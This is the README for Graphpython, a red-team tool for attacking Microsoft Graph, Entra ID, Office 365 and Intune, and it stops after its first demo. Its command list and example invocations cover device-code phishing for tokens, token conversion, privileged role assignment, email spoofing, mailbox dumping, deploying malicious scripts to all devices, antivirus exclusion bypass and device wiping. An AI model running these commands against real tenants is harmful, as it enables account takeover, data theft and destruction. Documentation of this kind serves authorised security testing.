




# Graphpython

<p align="center">
  
</p>

Graphpython is a modular Python tool for cross-platform Microsoft Graph API enumeration and exploitation. It builds upon the capabilities of AAD-Internals (Killchain.ps1), GraphRunner, and TokenTactics(V2) to provide a comprehensive solution for interacting with the Microsoft Graph API for red team and cloud assumed breach operations. 

It covers various Microsoft services, including Entra ID (Azure AD), Office 365 (Outlook, SharePoint, OneDrive, Teams), and Intune (Endpoint Management).

## Index

- [Install](#Install)
- [Commands](#Commands)
- [Usage](#Usage)
- [Command Wiki](#Command-Wiki)
    - [Outsider](#Outsider) 
    - [Authentication](#Authentication)
    - [Post-Auth Enumeration](#Post-Auth-Enumeration)
    - [Post-Auth Exploitation](#Post-Auth-Exploitation)
    - [Post-Auth Intune Enumeration](#Post-Auth-Intune-Enumeration)
    - [Post-Auth Intune Exploitation](#Post-Auth-Intune-Exploitation)
    - [Cleanup](#Cleanup)
- [Demo](#Demo)
    - [Invoke-ReconAsOutsider](#Invoke-ReconAsOutsider)
    - [Get-GraphTokens](#Get-GraphTokens)
    - [Invoke-ESTSCookieToAccessToken](#Invoke-ESTSCookieToAccessToken)
    - [Get-User](#Get-User)
    - [List-SharePointRoot](#List-SharePointRoot)
    - [Invite-GuestUser](#Invite-GuestUser)
    - [Assign-PrivilegedRole](#Assign-PrivilegedRole)
    - [Spoof-OWAEmailMessage](#Spoof-OWAEmailMessage)
    - [Get-DeviceConfigurationPolicies](#Get-DeviceConfigurationPolicies)
    - [Display-AVPolicyRules](#Display-AVPolicyRules)
    - [Get-ScriptContent](#Get-ScriptContent)
    - [Deploy-MaliciousScript](#Deploy-MaliciousScript)
    - [Add-ExclusionGroupToPolicy](#Add-ExclusionGroupToPolicy)
    - [Remove-GroupMember](#Remove-GroupMember)


## Install

```
git clone https://github.com/mlcsec/graphpython.git
cd graphpython
pip3 install -r requirements.txt
```

## Commands

- ALL commands are case-insensitive
- ALL flags and switches are position-independent
- User prompted for any required flags that are missing

```
# graphpython.py --list-commands

Outsider
================================================================================
Invoke-ReconAsOutsider            Perform outsider recon of the target domain
Invoke-UserEnumerationAsOutsider  Checks whether the uer exists within Azure AD

Authentication
================================================================================
Get-GraphTokens                        Obtain graph token via device code phish (saved to graph_tokens.txt)
Get-TenantID                           Get tenant ID for target domain
Get-TokenScope                         Get scope of supplied token
Decode-AccessToken                     Get all token payload attributes
Invoke-RefreshToMSGraphToken           Convert refresh token to Microsoft Graph token (saved to new_graph_tokens.txt)
Invoke-RefreshToAzureManagementToken   Convert refresh token to Azure Management token (saved to az_tokens.txt)
Invoke-RefreshToVaultToken             Convert refresh token to Azure Vault token (saved to vault_tokens.txt)
Invoke-RefreshToMSTeamsToken           Convert refresh token to MS Teams token (saved to teams_tokens.txt)
Invoke-RefreshToOfficeAppsToken        Convert refresh token to Office Apps token (saved to officeapps_tokens.txt)
Invoke-RefreshToOfficeManagementToken  Convert refresh token to Office Management token (saved to officemanagement_tokens.txt)
Invoke-RefreshToOutlookToken           Convert refresh token to Outlook token (saved to outlook_tokens.txt)
Invoke-RefreshToSubstrateToken         Convert refresh token to Substrate token (saved to substrate_tokens.txt)
Invoke-RefreshToYammerToken            Convert refresh token to Yammer token (saved to yammer_tokens.txt)
Invoke-RefreshToIntuneEnrollmentToken  Convert refresh token to Intune Enrollment token (saved to intune_tokens.txt)
Invoke-RefreshToOneDriveToken          Convert refresh token to OneDrive token (saved to onedrive_tokens.txt)
Invoke-RefreshToSharePointToken        Convert refresh token to SharePoint token (saved to sharepoint_tokens.txt)
Invoke-CertToAccessToken               Convert Azure Application certificate to JWT access token (saved to cert_tokens.txt)
Invoke-ESTSCookieToAccessToken         Convert ESTS cookie to MS Graph access token (saved to estscookie_tokens.txt)
Invoke-AppSecretToAccessToken          Convert Azure Application secretText credentials to access token (saved to appsecret_tokens.txt)

Post-Auth Enumeration
================================================================================
Get-CurrentUser                         Get current user profile
Get-CurrentUserActivity                 Get recent activity and actions of current user
Get-OrgInfo                             Get information relating to the target organisation
Get-Domains                             Get domain objects
Get-User                                Get all users (default) or target user (--id)
Get-UserProperties                      Get current user properties (default) or target user (--id)
Get-UserGroupMembership                 Get group memberships for current user (default) or target user (--id)
Get-UserTransitiveGroupMembership       Get transitive group memberships for current user (default) or target user (--id)
Get-Group                               Get all groups (default) or target group (-id)
Get-GroupMember                         Get all members of target group
Get-AppRoleAssignments                  Get application role assignments for current user (default) or target user (--id)
Get-ConditionalAccessPolicy             Get conditional access policy properties
Get-PersonalContacts                    Get contacts of the current user
Get-CrossTenantAccessPolicy             Get cross tenant access policy properties
Get-PartnerCrossTenantAccessPolicy      Get partner cross tenant access policy
Get-UserChatMessages                    Get ALL messages from all chats for target user (Chat.Read.All)
Get-AdministrativeUnitMember            Get members of administrative unit
Get-OneDriveFiles                       Get all accessible OneDrive files for current user (default) or target user (--id)
Get-UserPermissionGrants                Get permissions grants of current user (default) or target user (--id)
Get-oauth2PermissionGrants              Get oauth2 permission grants for current user (default) or target user (--id)
Get-Messages                            Get all messages in signed-in user's mailbox (default) or target user (--id)
Get-TemporaryAccessPassword             Get TAP details for current user (default) or target user (--id)
Get-Password                            Get passwords registered to current user (default) or target user (--id)
List-AuthMethods                        List authentication methods for current user (default) or target user (--id)
List-DirectoryRoles                     List all directory roles activated in the tenant
List-Notebooks                          List current user notebooks (default) or target user (--id)
List-ConditionalAccessPolicies          List conditional access policy objects
List-ConditionalAuthenticationContexts  List conditional access authentication context
List-ConditionalNamedLocations          List conditional access named locations
List-SharePointRoot                     List root SharePoint site properties
List-SharePointSites                    List any available SharePoint sites
List-SharePointURLs                     List SharePoint site web URLs visible to current user
List-ExternalConnections                List external connections
List-Applications                       List all Azure Applications
List-ServicePrincipals                  List all service principals
List-Tenants                            List tenants
List-JoinedTeams                        List joined teams for current user (default) or target user (--id)
List-Chats                              List chats for current user (default) or target user (--id)
List-ChatMessages                       List messages in target chat (--id)
List-Devices                            List devices
List-AdministrativeUnits                List administrative units
List-OneDrives                          List current user OneDrive (default) or target user (--id)
List-RecentOneDriveFiles                List current user recent OneDrive files
List-SharedOneDriveFiles                List OneDrive files shared with the current user
List-OneDriveURLs                       List OneDrive web URLs visible to current user

Post-Auth Exploitation
================================================================================
Invoke-CustomQuery         Custom GET query to target Graph API endpoint
Invoke-Search              Search for string within entity type (driveItem, message, chatMessage, site, event)
Find-PrivilegedRoleUsers   Find users with privileged roles assigned
Find-UpdatableGroups       Find groups which can be updated by the current user
Find-SecurityGroups        Find security groups and group members
Find-DynamicGroups         Find groups with dynamic membership rules
Find-Object                Find object via ID and display object properties
Update-UserPassword        Update the passwordProfile of the target user (NewUserS3cret@Pass!)
Add-ApplicationPassword    Add client secret to target application
Add-ApplicationPermission  Add permission to target application (application/delegated)
Add-UserTAP                Add new Temporary Access Password (TAP) to target user
Add-GroupMember            Add member to target group
Create-Application         Create new enterprise application with default settings
Create-NewUser             Create new Entra ID user
Invite-GuestUser           Invite guest user to Entra ID
Assign-PrivilegedRole      Assign chosen privileged role to user/group/object
Open-OWAMailboxInBrowser   Open an OWA Office 365 mailbox in BurpSuite's embedded Chromium browser using either a Substrate.Office.com or Outlook.Office.com access token
Dump-OWAMailbox            Dump OWA Office 365 mailbox
Spoof-OWAEmailMessage      Send email from current user's Outlook mailbox or spoof another user (--id) (Mail.Send)

Post-Auth Intune Enumeration
================================================================================
Get-ManagedDevices                     Get managed devices
Get-UserDevices                        Get user devices
Get-CAPs                               Get conditional access policies
Get-DeviceCategories                   Get device categories
Get-DeviceComplianceSummary            Get device compliance summary
Get-DeviceConfigurations               Get device configurations
Get-DeviceConfigurationPolicies        Get device configuration policies and assignment details (av, asr, diskenc, etc.)
Get-DeviceConfigurationPolicySettings  Get device configuration policy settings
Get-DeviceEnrollmentConfigurations     Get device enrollment configurations
Get-DeviceGroupPolicyConfigurations    Get device group policy configurations and assignment details
Get-DeviceGroupPolicyDefinition        Get device group policy definition
Get-RoleDefinitions                    Get role definitions
Get-RoleAssignments                    Get role assignments

Post-Auth Intune Exploitation
================================================================================
Dump-DeviceManagementScripts                   Dump device management PowerShell scripts
Get-ScriptContent                              Get device management script content
Deploy-MaliciousScript                         Deploy new malicious device management PowerShell script (all devices)
Display-AVPolicyRules                          Display antivirus policy rules
Display-ASRPolicyRules                         Display Attack Surface Reduction (ASR) policy rules
Display-DiskEncryptionPolicyRules              Display disk encryption policy rules
Display-FirewallPolicyRules                    Display firewall policy rules
Display-EDRPolicyRules                         Display EDR policy rules
Display-LAPSAccountProtectionPolicyRules       Display LAPS account protection policy rules
Display-UserGroupAccountProtectionPolicyRules  Display user group account protection policy rules
Get-DeviceCompliancePolicies                   Get device compliance policies
Add-ExclusionGroupToPolicy                     Bypass av, asr, etc. rules by adding an exclusion group containing compromised user or device
Reboot-Device                                  Reboot managed device
Retire-Device                                  Retire managed device
Lock-Device                                    Lock managed device
Shutdown-Device                                Shutdown managed device

Cleanup
================================================================================
Delete-User         Delete a user
Delete-Group        Delete a group
Remove-GroupMember  Remove user from a group
Delete-Application  Delete an application
Delete-Device       Delete managed device
Wipe-Device         Wipe managed device
```

## Usage

```
usage: graphpython.py [-h] [--command COMMAND] [--list-commands] [--token TOKEN] [--estsauthcookie ESTSAUTHCOOKIE] [--use-cae] [--cert CERT] [--domain DOMAIN] [--tenant TENANT]
                      [--username USERNAME] [--secret SECRET] [--id ID] [--select SELECT] [--query QUERY] [--search SEARCH] [--entity {driveItem,message,chatMessage,site,event}]
                      [--device {mac,windows,androidmobile,iphone}] [--browser {android,IE,chrome,firefox,edge,safari}] [--only-return-cookies]
                      [--mail-folder {allitems,inbox,archive,drafts,sentitems,deleteditems,recoverableitemsdeletions}] [--top TOP] [--script SCRIPT]

options:
  -h, --help            show this help message and exit
  --command COMMAND     Command to execute
  --list-commands       List available commands
  --token TOKEN         Microsoft Graph access token or refresh token for FOCI abuse
  --estsauthcookie ESTSAUTHCOOKIE
                        'ESTSAuth' or 'ESTSAuthPersistent' cookie value
  --use-cae             Flag to use Continuous Access Evaluation (CAE) - add 'cp1' as client claim to get an access token valid for 24 hours
  --cert CERT           X509Certificate path (.pfx)
  --domain DOMAIN       Target domain
  --tenant TENANT       Target tenant ID
  --username USERNAME   Username or file containing username (invoke-userenumerationasoutsider)
  --secret SECRET       Enterprise application secretText (invoke-appsecrettoaccesstoken)
  --id ID               ID of target object
  --select SELECT       Fields to select from output
  --query QUERY         Raw API query (GET only)
  --search SEARCH       Search string
  --entity {driveItem,message,chatMessage,site,event}
                        Search entity type: driveItem(OneDrive), message(Mail), chatMessage(Teams), site(SharePoint), event(Calenders)
  --device {mac,windows,androidmobile,iphone}
                        Device type for User-Agent forging
  --browser {android,IE,chrome,firefox,edge,safari}
                        Browser type for User-Agent forging
  --only-return-cookies
                        Only return cookies from the request (open-owamailboxinbrowser)
  --mail-folder {allitems,inbox,archive,drafts,sentitems,deleteditems,recoverableitemsdeletions}
                        Mail folder to dump (dump-owamailbox)
  --top TOP             Number (int) of messages to retrieve (dump-owamailbox)
  --script SCRIPT       File containing the script content (deploy-maliciousscript)

examples:
  graphpython.py --command invoke-reconasoutsider --domain company.com
  graphpython.py --command invoke-userenumerationasoutsider --username <email@company.com/emails.txt>
  graphpython.py --command get-graphtokens
  graphpython.py --command invoke-refreshtoazuremanagementtoken --tenant <tenant-id> --token refresh-token
  graphpython.py --command get-users --token eyJ0... -- select displayname,id [--id <userid>]
  graphpython.py --command list-recentonedrivefiles --token token
  graphpython.py --command invoke-search --search "credentials" --entity driveItem --token token
  graphpython.py --command invoke-customquery --query https://graph.microsoft.com/v1.0/sites/{siteId}/drives --token token
  graphpython.py --command assign-privilegedrole --token token
  graphpython.py --command spoof-owaemailmessage [--id <userid to spoof>] --token token
  graphpython.py --command get-manageddevices --token intune-token
  graphpython.py --command deploy-maliciousscript --script malicious.ps1 --token token
  graphpython.py --command add-exclusiongrouptopolicy --id <policyid> --token token
  graphpython.py --command reboot-device --id <deviceid> --token eyj0...
```

## Command Wiki

- The `--token` flag is REQUIRED for all post-auth and cleanup commands
- Flags in square brackets/italics below are OPTIONAL
  - Flags without are REQUIRED

### Outsider

| Command                                  | Description                                    |
|------------------------------------------|------------------------------------------------|
| **Invoke-ReconAsOutsider** --domain \<domain.com\>              | Perform outsider recon of the target domain |
| **Invoke-UserEnumerationAsOutsider** --username \<email/emails.txt\>      | Checks whether the uer exists within Azure AD |

### Authentication

| Command                                  | Description                                    |
|------------------------------------------|------------------------------------------------|
| **Get-GraphTokens**                      | Obtain graph token via device code phish (saved to _graph_tokens.txt_) |
| **Get-TenantID** --domain \<domain\>      | Get tenant ID for target domain |
| **Get-TokenScope** --token \<token\>      | Get scope of supplied token |
| **Decode-AccessToken** --token \<token\>  | Get all token payload attributes |
| **Invoke-RefreshToMSGraphToken** --token \<refresh\> --tenant \<id\> | Convert refresh token to Microsoft Graph token (saved to _new_graph_tokens.txt_) |
| **Invoke-RefreshToAzureManagementToken** --token \<refresh\> --tenant \<id\> | Convert refresh token to Azure Management token (saved to _az_tokens.txt_) |
| **Invoke-RefreshToVaultToken** --token \<refresh\> --tenant \<id\> | Convert refresh token to Azure Vault token (saved to _vault_tokens.txt_) |
| **Invoke-RefreshToMSTeamsToken** --token \<refresh\> --tenant \<id\> | Convert refresh token to MS Teams token (saved to _teams_tokens.txt_) |
| **Invoke-RefreshToOfficeAppsToken** --token \<refresh\> --tenant \<id\> | Convert refresh token to Office Apps token (saved to _officeapps_tokens.txt_) |
| **Invoke-RefreshToOfficeManagementToken** --token \<refresh\> --tenant \<id\> | Convert refresh token to Office Management token (saved to _officemanagement_tokens.txt_) |
| **Invoke-RefreshToOutlookToken** --token \<refresh\> --tenant \<id\> | Convert refresh token to Outlook token (saved to _outlook_tokens.txt_) |
| **Invoke-RefreshToSubstrateToken** --token \<refresh\> --tenant \<id\> | Convert refresh token to Substrate token (saved to _substrate_tokens.txt_) |
| **Invoke-RefreshToYammerToken** --token \<refresh\> --tenant \<id\> | Convert refresh token to Yammer token (saved to _yammer_tokens.txt_) |
| **Invoke-RefreshToIntuneEnrollmentToken** --token \<refresh\> --tenant \<id\> | Convert refresh token to Intune Enrollment token (saved to _intune_tokens.txt_) |
| **Invoke-RefreshToOneDriveToken** --token \<refresh\> --tenant \<id\> | Convert refresh token to OneDrive token (saved to _onedrive_tokens.txt_) |
| **Invoke-RefreshToSharePointToken** --token \<refresh\> --tenant \<id\> [PROMPTS FOR INPUT] | Convert refresh token to SharePoint token (saved to _sharepoint_tokens.txt_) |
| **Invoke-CertToAccessToken** --cert \<path to pfx\> --id \<app id\> --tenant \<id\> | Convert Azure Application certificate to JWT access token (saved to _cert_tokens.txt_) |
| **Invoke-ESTSCookieToAccessToken** --estsauthcookie \<cookievalue\> --tenant \<id\> [PROMPTS FOR INPUT] | Convert ESTS cookie (ESTSAuthPersistent) to MS Graph access token (saved to _estscookie_tokens.txt_)|
| **Invoke-AppSecretToAccessToken** --tenant \<id\> --id \<appid\> --secret \<secretText\>| Convert Azure Application secretText credentials to access token (saved to appsecret_tokens.txt)  |

### Post-Auth Enumeration

| Command                                  | Description                                    |
|------------------------------------------|------------------------------------------------|
| **Get-CurrentUser**                          | Get current user profile                                         |
| **Get-CurrentUserActivity**                  | Get recent activity and actions of current user                         |
| **Get-OrgInfo**                              | Get information relating to the target organization                                               |
| **Get-Domains**                              | Get domain objects                                               |
| **Get-User** _[--id <userid/upn>]_                 | Get all users (default) or target user (--id)  |
| **Get-UserProperties** _[--id <userid/upn>]_                       | Get current user properties (default) or target user (--id) !WARNING! loud/slow due to 403 errors when grouping properties        |
| **Get-UserGroupMembership** _[--id <userid/upn>]_                 | Get group memberships for current user (default) or target user (--id)  |
| **Get-UserTransitiveGroupMembership** _[--id <userid/upn>]_       | Get transitive group memberships for current user (default) or target user (--id)                |
| **Get-Group** _[--id \<groupid\>]_                               | Get all groups (default) or target group (--id)                              |
| **Get-GroupMember** --id \<groupid\>                         | Get all members of target group                              |
| **Get-AppRoleAssignments** _[--id <userid/upn>]_                   | Get application role assignments for current user (default) or target user (--id)                                           |
| **Get-ConditionalAccessPolicy** --id \<cap id\>             | Get conditional access policy properties                            |
| **Get-PersonalContacts**                     | Get contacts of the current user                                               |
| **Get-CrossTenantAccessPolicy**              | Get cross tenant access policy properties                                               |
| **Get-PartnerCrossTenantAccessPolicy**       | Get partner cross tenant access policy                                              |
| **Get-UserChatMessages** --id \<userid/upn\>                    | Get all messages from all chats for target user     |
| **Get-AdministrativeUnitMember** --id \<adminunitid\>             | Get members of administrative unit                      |
| **Get-OneDriveFiles** _[--id \<userid/upn\>]_                      | Get all accessible OneDrive files for current user (default) or target user (--id)                                             |
| **Get-UserPermissionGrants** _[--id \<userid/upn\>]_                | Get permissions grants of current user (default) or target user (--id)                          |
| **Get-oauth2PermissionGrants** _[--id \<userid/upn\>]_              | Get oauth2 permission grants for current user (default) or target user (--id)                                               |
| **Get-Messages** _[--id \<userid/upn\>]_                            | Get all messages in signed-in user's mailbox (default) or target user (--id)                                               |
| **Get-TemporaryAccessPassword** _[--id \<userid/upn\>]_             | Get TAP details for current user (default) or target user (--id)                   |
| **Get-Password** _[--id \<userid/upn\>]_                            | Get passwords registered to current user (default) or target user (--id)                    |
| **List-AuthMethods** _[--id \<userid/upn\>]_                        | List authentication methods for current user (default) or target user (--id)                                           |
| **List-DirectoryRoles**                      | List all directory roles activated in the tenant                                            |
| **List-Notebooks** _[--id \<userid/upn\>]_                          | List current user notebooks (default) or target user (--id)                                               |
| **List-ConditionalAccessPolicies**           | List conditional access policy objects                                              |
| **List-ConditionalAuthenticationContexts**   | List conditional access authentication context                                             |
| **List-ConditionalNamedLocations**           | List conditional access named locations                                               |
| **List-SharePointRoot**                      | List root SharePoint site properties                                              |
| **List-SharePointSites**                     | List any available SharePoint sites                                           |
| **List-SharePointURLs**                      | List SharePoint site web URLs visible to current user                                           |
| **List-ExternalConnections**                 | List external connections                                               |
| **List-Applications**                        | List all Azure Applications                                              |
| **List-ServicePrincipals**                   | List all service principals                                               |
| **List-Tenants**                             | List tenants                                               |
| **List-JoinedTeams** _[--id \<userid/upn\>]_                        | List joined teams for current user (default) or target user (--id) |
| **List-Chats** _[--id \<userid/upn\>]_                              | List chats for current user (default) or target user (--id)  |
| **List-Devices**                             | List devices                                                |
| **List-AdministrativeUnits**                 | List administrative units                                               |
| **List-OneDrives** _[--id \<userid/upn\>]_                          | List current user OneDrive (default) or target user (--id)                            |
| **List-RecentOneDriveFiles**                 | List current users recent OneDrive files                                               |
| **List-SharedOneDriveFiles**                 | List OneDrive files shared with the current user                                               |
| **List-OneDriveURLs**| List OneDrive web URLs visible to current user |

### Post-Auth Exploitation

| Command                                  | Description                                    |
|------------------------------------------|------------------------------------------------|
| **Invoke-CustomQuery** --query \<graph endpoint URL\>                      | Custom GET query to target Graph API endpoint e.g. `https://graph.microsoft.com/v1.0/me`                                           |
| **Invoke-Search** --search \<string\> --entity \<entity\>                           | Search for string within entity type (driveItem, message, chatMessage, site, event)          |
| **Find-PrivilegedRoleUsers**             | Find users with privileged roles assigned     |
| **Find-UpdatableGroups**                 | Find groups which can be updated by the current user |
| **Find-DynamicGroups**                   | Find groups with dynamic membership rules |
| **Find-SecurityGroups**                  | Find security groups and group members        |
| **Find-Object** --id \<object id\>        | Find object via ID and display object properties |
| **Update-UserPassword** --id \<userid/upn\> | Update the passwordProfile of the target user (NewUserS3cret@Pass!) |
| **Add-ApplicationPassword** --id \<appid\> | Add client secret to target application       |
| **Add-UserTAP** --id \<userid/upn\>        | Add new Temporary Access Password (TAP) to target user |
| **Add-GroupMember** --id \<groupid,objectidtoadd\> | Add member to target group                    |
| **Create-Application** [PROMPTS FOR INPUT]                  | Create new enterprise application with default settings |
| **Create-NewUser** [PROMPTS FOR INPUT]                       | Create new Entra ID user                      |
| **Invite-GuestUser** --tenant \<tenantid\> [PROMPTS FOR INPUT]                   | Invite guest user to Entra ID                 |
| **Assign-PrivilegedRole** [PROMPTS FOR INPUT] | Assign chosen privileged role to user/group/object |
| **Open-OWAMailboxInBrowser** --token \<substrate/outlooktoken\>             | Open an OWA Office 365 mailbox in BurpSuite's embedded Chromium browser using either a Substrate.Office.com or Outlook.Office.com access token |
| **Dump-OWAMailbox** --mail-folder \<allitems/inbox/archive/drafts/sentitems/deleteditems/recoverableitemsdeletions\> _[--id \<userid\>]_     | Dump OWA Office 365 mailbox (default: current suer)                   |
| **Spoof-OWAEmailMessage** _[--id \<useridtospoof\>]_ | Send email from current user's Outlook mailbox or spoof another user (--id) |


### Post-Auth Intune Enumeration

| Command                                  | Description                                    |
|------------------------------------------|------------------------------------------------|
| **Get-ManagedDevices**                   | Get managed devices                            |
| **Get-UserDevices** --id \<userprincipalname\>                     | Get user devices                               |
| **Get-CAPs**                             | Get conditional access policies                |
| **Get-DeviceCategories**                 | Get device categories                          |
| **Get-DeviceComplianceSummary**          | Get device compliance summary                  |
| **Get-DeviceConfigurations**             | Get device configurations                      |
| **Get-DeviceConfigurationPolicies**      | Get device configuration policies and assignment details (av, asr, diskenc, etc.) |
| **Get-DeviceConfigurationPolicySettings** --id \<configpolicyid\> | Get device configuration policy settings       |
| **Get-DeviceEnrollmentConfigurations**   | Get device enrollment configurations           |
| **Get-DeviceGroupPolicyConfigurations**  | Get device group policy configurations and assignment details |
| **Get-DeviceGroupPolicyDefinition** --id \<grouppolicyid\>      | Get device group policy definition             |
| **Get-RoleDefinitions**                  | Get role definitions                           |
| **Get-RoleAssignments**                  | Get role assignments                           |

### Post-Auth Intune Exploitation

> Use Get-DeviceConfigurationPolicies to identify the policyids with active assignments for the Display-* commands below

| Command                                           | Description                                    |
|---------------------------------------------------|------------------------------------------------|
| **Dump-DeviceManagementScripts**                  | Dump device management PowerShell scripts      |
| **Get-ScriptContent** --id \<scriptid\>                            | Get device management script content           |
| **Deploy-MaliciousScript** --script \<script.ps1\> [PROMPTS FOR INPUT]                       | Deploy new malicious device management PowerShell script to all devices |
| **Display-AVPolicyRules** --id \<configpolicyid\>                        | Display antivirus policy rules                 |
| **Display-ASRPolicyRules** --id \<configpolicyid\>                       | Display Attack Surface Reduction (ASR) policy rules |
| **Display-DiskEncryptionPolicyRules** --id \<configpolicyid\>            | Display disk encryption policy rules        |
| **Display-FirewallPolicyRules** --id \<configpolicyid\>                  | Display firewall policy rules               |
| **Display-EDRPolicyRules** --id \<configpolicyid\>                       | Display EDR policy rules                     |
| **Display-LAPSAccountProtectionPolicyRules** --id \<configpolicyid\>      | Display LAPS account protection policy rules    |
| **Display-UserGroupAccountProtectionPolicyRules** --id \<configpolicyid\> | Display user group account protection policy rules |
| **Get-DeviceCompliancePolicies**                  | Get device compliance policies             |
| **Add-ExclusionGroupToPolicy** --id \<configpolicyid\> [PROMPTS FOR INPUT] | Bypass av, asr, etc. rules by adding an exclusion group containing compromised user or device  |
| **Reboot-Device** --id \<deviceid\>                                | Reboot managed device                          |
| **Retire-Device** --id \<deviceid\>                                | Retire managed device                          |
| **Lock-Device** --id \<deviceid\>                                  | Lock managed device                            |
| **Shutdown-Device** --id \<deviceid\>                              | Shutdown managed device                        |


### Cleanup

| Command                                  | Description                                    |
|------------------------------------------|------------------------------------------------|
| **Delete-User** --id \<userid\>      | Delete a user                                  |
| **Delete-Group** --id \<groupid>                         | Delete a group                                 |
| **Remove-GroupMember** --id \<objectid\>                   | Remove user from a group                       |
| **Delete-Application** --id \<appid\>                   | Delete an application                          |
| **Delete-Device** --id \<deviceid\>                       | Delete managed device                          |
| **Wipe-Device** --id \<deviceid\>                         | Wipe managed device                            |

<br>

# Demo

## Invoke-ReconAsOutsider

#### Example:
```
# graphpython.py --command invoke-reconasoutsider --domain company.com
```
#### Output:
```
[*] Invoke-ReconAsOutsider
================================================================================
Domains: 2
Tenant brand:       Company Ltd
Tenant name:        company
Tenant id:          05aea22e-32f3-4c35-831b-52735704feb3
Tenant region:      EU
DesktopSSO enabled: False
MDI instance:       Not found
Uses cloud sync:    False

